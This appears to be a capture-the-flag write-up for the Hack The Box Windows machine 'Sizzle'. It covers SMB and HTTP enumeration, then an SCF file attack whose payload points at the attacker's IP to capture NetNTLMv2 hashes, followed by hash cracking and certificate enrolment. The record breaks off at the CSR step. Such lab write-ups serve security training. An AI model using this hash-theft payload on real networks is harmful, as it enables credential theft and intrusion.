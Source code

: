 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}













